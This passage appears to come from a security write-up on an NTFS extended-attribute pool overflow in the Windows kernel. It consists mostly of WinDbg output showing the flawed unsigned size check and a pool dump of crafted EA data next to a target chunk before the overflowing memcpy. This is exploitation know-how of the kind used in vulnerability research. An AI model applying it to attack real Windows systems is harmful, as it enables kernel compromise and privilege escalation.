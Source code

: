
```
1: kd> t
Ntfs!NtfsQueryEaUserEaList+0x1a9:
fffff803`0cb8c2cd 443bf0          cmp     r14d,eax

1: kd> r r14d, eax
r14d=10 eax=ffffffff
```

The last EA block size is `0x10` and is `0xffffffff` (`out_buf_len-padding`) larger than that? At least for unsigned comparison it is.

Inspecting the state of the pool buffers before the `memcpy`

```
1: kd> !pool ffffd88934985b14
Pool page ffffd88934985b14 region is Paged pool
// snip
*ffffd889349859c0 size:  160 previous size:    0  (Allocated) *NtFE
		Pooltag NtFE : Ea.c, Binary : ntfs.sys
 ffffd88934985b20 size:  160 previous size:    0  (Allocated)  NpAt
// snip

// data in chunk and start of adjacent chunk before the third memcpy leading to the overflow
1: kd> db ffffd889349859c0 l180
ffffd889`349859c0  00 00 16 03 4e 74 46 45-00 00 00 00 00 00 00 00  ....NtFE........
ffffd889`349859d0  9c 00 00 00 00 0f 81 00-55 53 45 52 2e 43 4f 4d  ........USER.COM
ffffd889`349859e0  4d 45 4e 54 33 32 31 00-54 68 69 73 20 69 73 20  MENT321.This is 
ffffd889`349859f0  61 20 63 6f ff 6d 65 6e-74 31 32 33 41 41 41 41  a co.ment123AAAA
ffffd889`34985a00  42 42 42 42 43 43 43 43-44 44 44 44 45 45 45 45  BBBBCCCCDDDDEEEE
ffffd889`34985a10  46 46 46 46 41 41 41 41-42 42 42 42 43 43 43 43  FFFFAAAABBBBCCCC
ffffd889`34985a20  44 44 44 44 45 45 45 45-46 46 46 46 47 47 47 47  DDDDEEEEFFFFGGGG
ffffd889`34985a30  48 48 48 48 4a 4a 4a 4a-4b 4b 4b 4b 4c 4c 4c 4c  HHHHJJJJKKKKLLLL
ffffd889`34985a40  4d 4d 4d 4d 4e 4e 4e 4e-4f 4f 4f 4f 50 50 50 50  MMMMNNNNOOOOPPPP
ffffd889`34985a50  01 02 03 04 05 06 07 08-01 02 03 04 05 06 07 08  ................
ffffd889`34985a60  01 02 03 04 05 06 07 08-00 00 00 00 00 00 00 00  ................
ffffd889`34985a70  00 0f 8d 00 55 53 45 52-2e 43 4f 4d 4d 45 4e 54  ....USER.COMMENT
ffffd889`34985a80  32 32 32 00 54 68 69 73-20 69 73 20 61 20 63 6f  222.This is a co
ffffd889`34985a90  ff 6d 65 6e 74 31 32 33-41 41 41 41 42 42 42 42  .ment123AAAABBBB
ffffd889`34985aa0  43 43 43 43 44 44 44 44-45 45 45 45 46 46 46 46  CCCCDDDDEEEEFFFF
ffffd889`34985ab0  47 47 48 48 48 48 49 49-49 49 4a 4a 41 41 41 41  GGHHHHIIIIJJAAAA
ffffd889`34985ac0  42 42 42 42 43 43 43 43-44 44 44 44 45 45 45 45  BBBBCCCCDDDDEEEE
ffffd889`34985ad0  46 46 46 46 47 47 47 47-48 48 48 48 4a 4a 4a 4a  FFFFGGGGHHHHJJJJ
ffffd889`34985ae0  4b 4b 4b 4b 4c 4c 4c 4c-4d 4d 4d 4d 4e 4e 4e 4e  KKKKLLLLMMMMNNNN
ffffd889`34985af0  4f 4f 4f 4f 50 50 50 50-01 02 03 04 05 06 07 08  OOOOPPPP........
ffffd889`34985b00  01 02 03 04 05 06 07 08-01 02 03 04 05 06 07 08  ................
ffffd889`34985b10  00 00 00 00 24 00 00 00-00 00 00 00 03 00 00 00  ....$...........
ffffd889`34985b20  00 00 16 03 4e 70 41 74-00 00 00 00 00 00 00 00  ....NpAt........                // <- here a new chunk begins
ffffd889`34985b30  b0 9b 50 2c 89 d8 ff ff-b0 9b 50 2c 89 d8 ff ff  ..P,......P,....
```

And inspecting the same buffer after the third `memcpy`
